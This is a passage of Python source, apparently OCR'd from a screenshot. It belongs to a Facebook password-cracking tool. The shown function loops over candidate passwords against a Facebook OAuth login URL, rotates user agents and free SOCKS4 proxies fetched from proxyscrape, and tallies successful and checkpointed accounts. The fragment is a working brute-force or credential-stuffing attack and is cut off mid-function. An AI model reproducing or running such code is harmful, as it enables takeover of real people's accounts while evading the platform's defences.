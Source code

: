 			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
	
#----------[ METODE-ASYINC ]----------#	
def crackasyinc(idf,pwx,url):
	global loop,ok,cp
	ses = requests.Session()
	rr = random.randint
	rc = random.choice
	emot = rc(["😝","😜","🤪"])
	prog.update(des,description=f"\r {emot} ASYINC (%s OK : {ok} %s) (%s CP : {cp} %s) (%s {loop} %s) "%(hijo,puti,kun,puti,hijo,puti))
	prog.advance(des)
	for pw in pwx:
		try:
			proxs = requests.get('https://api.proxyscrape.com/v2/?request=displayproxies&protocol=socks4&timeout=100000&country=all&ssl=all&anonymity=all').text
			open('socksku.txt','w').write(proxs)
			nip = rc(proxs)
			proxs = {'http': 'socks4://'+nip}
			ua = rc(ugen)
			ua2 = rc(["Mozilla/5.0 (iPhone; CPU iPhone OS 13_5_1 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.1 Mobile/15E148 Safari/604.1","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 Edg/91.0.864.59"])
			ref = rc([f"https://{url}/login.php?skip_api_login=1&api_key=266809897176355&kid_directed_site=0&app_id=266809897176355&signed_next=1&next=https%3A%2F%2F{url}%2Fv7.0%2Fdialog%2Foauth%3Fapp_id%3D266809897176355%26cbt%3D1694956577376%26channel_url%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df26dedb14c84ab%2526domain%253Dwww.signupgenius.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fwww.signupgenius.com%25252Ff1e4e76b83b13a%2526relation%253Dopener%26client_id%3D266809897176355%26display%3Dtouch%26domain%3Dwww.signupgenius.com%26e2e%3D%257B%257D%26fallback_redirect_uri%3Dhttps%253A%252F%252Fwww.signupgenius.com%252Fregister%26locale%3Den_US%26logger_id%3Df2de2085933efa%26origin%3D2%26redirect_uri%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df2785f21139e0cc%2526domain%253Dwww.signupgenius.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fwww.signupgenius.com%25252Ff1e4e76b83b13a%2526relation%253Dopener%2526frame%253Df380e29c31da6c%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%26scope%3Dpublic_profile%252Cemail%26sdk%3Djoey%26version%3Dv7.0%26refsrc%3Ddeprecated%26ret%3Dlogin%26fbapp_pres%3D0%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fstaticxx.facebook.com%2Fx%2Fconnect%2Fxd_arbiter%2F%3Fversion%3D46%23cb%3Df2785f21139e0cc%26domain%3Dwww.signupgenius.com%26is_canvas%3Dfalse%26origin%3Dhttps%253A%252F%252Fwww.signupgenius.com%252Ff1e4e76b83b13a%26relation%3Dopener%26frame%3Df380e29c31da6c%26error%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr"])
			link = ses.get(f"https://{url}/login.php?skip_api_login=1&api_key=266809897176355&kid_directed_site=0&app_id=266809897176355&signed_next=1&next=https%3A%2F%2F{url}%2Fv7.0%2Fdialog%2Foauth%3Fapp_id%3D266809897176355%26cbt%3D1694956577376%26channel_url%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df26dedb14c84ab%2526domain%253Dwww.signupgenius.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fwww.signupgenius.com%25252Ff1e4e76b83b13a%2526relation%253Dopener%26client_id%3D266809897176355%26display%3Dtouch%26domain%3Dwww.signupgenius.com%26e2e%3D%257B%257D%26fallback_redirect_uri%3Dhttps%253A%252F%252Fwww.signupgenius.com%252Fregister%26locale%3Den_US%26logger_id%3Df2de2085933efa%26origin%3D2%26redirect_uri%3Dhttps%253A%252F%252Fstaticxx.facebook.com%252Fx%252Fconnect%252Fxd_arbiter%252F%253Fversion%253D46%2523cb%253Df2785f21139e0cc%2526domain%253Dwww.signupgenius.com%2526is_canvas%253Dfalse%2526origin%253Dhttps%25253A%25252F%25252Fwww.signupgenius.com%25252Ff1e4e76b83b13a%2526relation%253Dopener%2526frame%253Df380e29c31da6c%26response_type%3Dtoken%252Csigned_request%252Cgraph_domain%26scope%3Dpublic_profile%252Cemail%26sdk%3Djoey%26version%3Dv7.0%26refsrc%3Ddeprecated%26ret%3Dlogin%26fbapp_pres%3D0%26tp%3Dunspecified&cancel_url=https%3A%2F%2Fstaticxx.facebook.com%2Fx%2Fconnect%2Fxd_arbiter%2F%3Fversion%3D46%23cb%3Df2785f21139e0cc%26domain%3Dwww.signupgenius.com%26is_canvas%3Dfalse%26origin%3Dhttps%253A%252F%252Fwww.signupgenius.com%252Ff1e4e76b83b13a%26relation%3Dopener%26frame%3Df380e29c31da6c%26error%3Daccess_denied%26error_code%3D200%26error_description%3DPermissions%2Berror%26error_reason%3Duser_denied&display=touch&locale=id_ID&pl_dbl=0&refsrc=deprecated&_rdr")
